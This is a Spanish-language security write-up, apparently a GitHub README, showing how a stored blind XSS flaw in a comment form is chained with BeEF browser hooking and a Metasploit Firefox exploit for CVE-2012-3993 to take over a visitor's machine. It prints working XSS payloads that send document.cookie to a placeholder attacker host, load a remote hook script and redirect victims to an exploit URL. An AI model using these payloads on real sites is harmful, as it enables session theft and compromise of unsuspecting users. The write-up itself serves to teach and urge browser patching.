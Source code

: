 #  XSS + WEBHOOK
### Resumen
En este paper se explicará como de un simple xss se puede llegar a vulnerar un sistema desactualizado (con un navegador desactualizado). En esta ocasión se aplican varias técnicas para llegar al proposito de generar un rce, como por ejemplo XSS, WEBHOOK, CVE's, y persistencia.

### PoC

Tenemos el siguiente formulario con una vulnerabilidad xss stored (blind) el cual nos puede servir para robar cookies de cualquier usuario que llegue a visitar la sección "comentarios" de ese sitio. La vulnerabilidad se pudo encontrar ya que al ver el formulario de comentarios se pudo observar que no muestra ningún alert sin embargo sí guarda nuestro codigo en la pagina principal.

![image](https://user-images.githubusercontent.com/78449089/128909869-49cc4706-2f57-48cd-9730-b9494576afe8.png)

Para comprobar que es blind, se solicitará un recurso a un web tercero (en este caso seriamos nosotros como atacantes).

![image](https://user-images.githubusercontent.com/78449089/128912972-a28275dd-84fb-4ccc-9049-01eb32bfa0f5.png)

este fue el payload que se utilizó para comprobarlo y el resultado fue una request hacia nuestro servidor.

![image](https://user-images.githubusercontent.com/78449089/128913148-740cdd41-226b-4aec-924b-26c2fe425a4d.png)

En este caso, nosotros mismos pedimos ese recurso pero ¿y si a la vez que pedimos el recurso hacia nuestra web, enviamos también la cookie?
Pues una vez puesto a prueba eso, obtenemos la siguiente cookie.

![image](https://user-images.githubusercontent.com/78449089/128913816-2358864a-0fba-482d-b33b-ad2f99df4edb.png)

payload: `"><img src=x onerror="javascript:document.location='http://ATACANTE.COM?c='+document.cookie"></img>`

Ahora que tenemos el escenario puesto y una vulnerabilidad, es aquí cuando debemos ser más creativos y pensar qué podemos llevar a cabo con ese vector.
Investigando muy a fondo encontré que con [beef-xss](https://beefproject.com) se pueden realizar ataques muy guapos pero en este caso nos vamos a concentrar en uno muy especifico, encontrar navegadores vulnerables con algún cve.

Para ello tenemos que hacer un par de cosas para realizar tal hazaña. Primeramente utilizaremos nuestro anterior xss encontrado para inyectar el codigo js que nos provee beef-xss.

Una vez ejecutado beef, nos da un js el cual debemos poner dentro del formulario vulnerable para que cuando un usuario entre a esa sección, su navegador quede hookeado.

![image](https://user-images.githubusercontent.com/78449089/128918746-8bd9acfe-4fac-47de-9339-741ce2676f13.png)

el payload sería algo así: `<img src=x onerror="$.getScript('http://atacante.com/hook.js')"/>`

![image](https://user-images.githubusercontent.com/78449089/128928700-95184d85-e94f-422f-bbac-d02506ed6ece.png)

Como podemos ver, tenemos un navegador hookeado. El navegador estará hookeado mientras tenga la pestaña abierta justo donde está alojado nuestro xss, si el usuario cierra esa página nuestro hookeo se caerá y no podremos hacer nada.

Bien, ahora que tenemos todo sobre la mesa, sigue buscar si el navegador que tenemos hookeado tiene alguna vulnerabilidad. Tenemos la siguiente información:

![image](https://user-images.githubusercontent.com/78449089/128934982-3fb0deac-e927-4860-a240-76d5837166c3.png)

Podemos ver algo muy interesante y es que el navegador actual, tiene como version la 10.0 y si hacemos una busqueda rapida encontramos que todos los navegadores firefox desde versión 5.0 hasta la 15.0 son vulnerables al [CVE-2012-3993](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3993)

Después de una larga busqueda sobre ese CVE, encontré un modulo en metasploit que puede desplegar esa vulnerabilidad y tomar control de la pc victima.
(TAMBIÉN EL PLUGIN ES VULNERABLE)

El modulo a utilizar es [este](https://vulners.com/metasploit/MSF:EXPLOIT/MULTI/BROWSER/FIREFOX_PROTO_CRMFREQUEST)

Una vez ejecutando el modulo con todas sus opciones configuradas nos arrojará una url, la cual debemos poner dentro de nuestro xss encontrado anteriormente para así mandar a la victima a un sitio donde se le es descargado un payload para explotar la mencionada vulnerabilidad.

el payload sería algo así: `"><img src=x onerror="javascript:document.location='http://ATACANTE.COM/LZ91C3H4EI'"></img>`

![image](https://user-images.githubusercontent.com/78449089/128937355-413f2f20-1450-46ee-92e4-b22654e83ad7.png)

Una vez inyectado nuestro payload, se verá algo como esto y damos por hecho que nuestro trabajo ha terminado... victima pwneada.


Por eso es muy importante actualizar nuestros navegadores, ya que allá fuera siguen existiendo muchos navegadores vulnerables a este y otro tipo de vectores, principalmente en servidores viejos que están por ahí. Aquí se demuestra como un simple xss puede tener un impacto grandisimo si se lleva a cabo en conjunto a otras cosas.


Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)




